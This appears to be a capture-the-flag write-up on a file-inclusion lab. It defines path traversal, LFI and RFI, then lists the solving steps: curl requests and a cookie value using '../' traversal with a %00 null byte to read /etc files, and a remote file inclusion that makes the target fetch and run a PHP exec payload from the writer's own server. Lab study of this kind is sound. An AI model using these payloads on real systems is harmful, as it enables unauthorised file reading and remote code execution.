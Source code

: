 - **Essential parts of the url**
- **Path/Directort Transversal** -> vulnerability that allows an attacker to read operating system resources. The attacker manipulates the url to locate and access files or directories stored outside the root directory.
- **PHP information** -> https://www.php.net
- **Path transversal attacks** -> known as dot-dot-slash attack, take advantage of moving the directory one step up using the double dots ../
- **Local File Inclusion (LFI)**
- **NULL Byte** -> %00
- **Remote File Inclusion (RFI)** -> technique to include remote files into a vulnerable application. It has one requirement: `allow_url_fopen` must be on.

![](img/file1.png)
![](img/file2.png)
![](img/file3.png)
![](img/file4.png)
![](img/file5.png)
![](img/file6.png)
![](img/file7.png)
![](img/file8.png)
![](img/file9.png)
![](img/file10.png)
![](img/file11.png)
![](img/file12.png)
![](img/file13.png)
![](img/file14.png)
![](img/file15.png)
![](img/file16.png)
![](img/file17.png)
![](img/file18.png)

CHALLENGES
- To get the first flag, we can put this in terminal: `curl -X POST https://MACHINEIP/challenges/chall1.php -d 'method=GET&file=/etc/flag1'`
- To get the second flag, we open burpsuite and put on cookie `../../../../etc/flag2%00`
- To get the third flag, we put this in terminal: `curl -X POST https://MACHINEIP/challenges/chall3.php -d 'method=POST&file=../../../../etc/flag3%00'`
- To get the hostname (Remote File Inclusion), whe set up our remote server writing `sudo python3 -m http.server` and then we create a file txt with the content: `<?php print exec('hostname'); ?>` and we intruduce on the url `http://MACHINEIP/playground.php?file=http://myIP:PORT/file.txt` and the hostname is shown.
